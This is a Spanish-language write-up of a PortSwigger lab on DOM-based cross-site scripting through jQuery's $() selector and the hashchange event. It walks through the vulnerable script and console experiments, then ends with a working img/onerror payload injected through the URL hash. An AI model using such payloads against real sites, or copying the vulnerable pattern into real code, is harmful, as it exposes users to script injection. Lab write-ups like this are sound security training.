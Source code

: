 This lab contains a DOM-based cross-site scripting vulnerability on the home page. It uses jQuery's `$()` selector function to auto-scroll to a given post, whose title is passed via the `location.hash` property.

To solve the lab, deliver an exploit to the victim that calls the `print()` function in their browser.

---
la parte del codigo que incluye la vulnerabilidad es la siguiente; si escroleas al fondo de la pagina web observamos:
```java
   <script>
     $(window).on('hashchange', function(){
            var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');
            if (post) post.get(0).scrollIntoView();
                 });
    </script>
```

## Explicación del código

### 1. **`$(window).on('hashchange', function() { ... })`**

- Este bloque de código escucha el evento `hashchange`, que se activa cada vez que cambia el hash (`#`) en la URL.
- Cuando el hash cambia, se ejecuta la función anónima dentro de este bloque.


### 2. **`var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');`**

- Aquí se define una variable llamada `post` que contiene un selector jQuery.
- Desglosando esta línea:
    - `window.location.hash`: Obtiene el hash actual de la URL (por ejemplo, `#mi-post`).
    - `.slice(1)`: Elimina el primer carácter (`#`) del hash, dejando solo el contenido (por ejemplo, `mi-post`).
    - `decodeURIComponent(...)`: Decodifica cualquier carácter especial que pueda estar codificado en el hash (por ejemplo, `%20` para espacios).
    - `'section.blog-list h2:contains(...)'`: Busca dentro de los elementos `<h2>` dentro de un contenedor con la clase `blog-list` aquellos cuyo texto contenga el valor decodificado del hash.
    - El resultado de esta búsqueda se almacena en la variable `post`.



### 3. **`if (post) post.get(0).scrollIntoView();`**

- Esta línea verifica si se encontró algún elemento coincidente en la búsqueda anterior.
- Si `post` no está vacío (es decir, si se encontró al menos un elemento), entonces:
    - `post.get(0)`: Obtiene el primer elemento del conjunto de resultados como un objeto DOM nativo.
    - `.scrollIntoView()`: Hace que ese elemento sea visible desplazando la página hasta él.



URL:
https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-jquery-selector-hash-change-event

Si miramos en la URL del sitio no vemos ningún `#` ; vamos a meterle uno

```http
https://0ae10028031b6fb480196c1b00e10099.web-security-academy.net/#Communication
```

Observo como el script me ha bajado hasta donde aparece el `<h2>` con la palabra indicada después del '#'

---
Vamos por partes, en el console podemos interactuar con el script, por tanto :
Miramos como lo interpreta el servidor por la consola:

![[Pasted image 20250212195942.png]]
```http
Object { 0: h2, selector: "section.blog-list h2:contains(Communication)", length: 1, prevObject: {…}, context: HTMLDocument
```
``
A ver que pasa si ponemos algo que no existe en ningun h2 en la variable post del Script de JQery

![[Pasted image 20250212200451.png]]


Podemos ver que cambia el length a 0 pero sige existiendo ; en principio esto no deberia ser asi; podemos usar el  metodo "contains" para meter nuestras etiquetas;

```java
//Create variable  
var post = $('section.blog-list h2:contains(<h1>Good night punpun<h1>)');  
//miaramos post 
post;  
//miramos si post existe 
if (post) {console.log('true');}
```


![[Pasted image 20250212201028.png]]


Creamos un elemento DOM

![[Pasted image 20250212201108.png]]

Nuestro `<h1>` DOM todavia no es visible en la pagina porque no esta asociado a nada aun; (parentElement:null) para que nuestro elemento aparezca en la pagina hay que asociar el child a un parentelement
![[Pasted image 20250212201330.png]]


Podemos buscar un `<div>` donde queramos attachear nuestro `<h1>` pillo el primero. por ejemplo
![[Pasted image 20250212201446.png]]

Ahora tenemos que
* Reasignar "post" a nuestro elemento DOM "post.get(0)"
* Crear un parent node. "document.getElementById()" vamos a anadir el div id como el argumento
* Assignar nuestro post como child a nuestro node usando "appendChild()"

```http
//Reassigning post variable  
post = post.get(0);  
//Create variable mynode using vanilla JavaScript  
var mynode = document.getElementById('academyLabHeader');  
//Look at node  
mynode;  
//Append post to node  
mynode.appendChild(post);
```


![[Pasted image 20250212202828.png]]


Si podemos insertar una tag `<img>` dentro del contain podemos triggerear la alerta; lo injectamos directamente en la url de esta manera

```http
#<img src="0" onerror="alert('Buenos dias punpun')">
```
![[Pasted image 20250212204848.png]]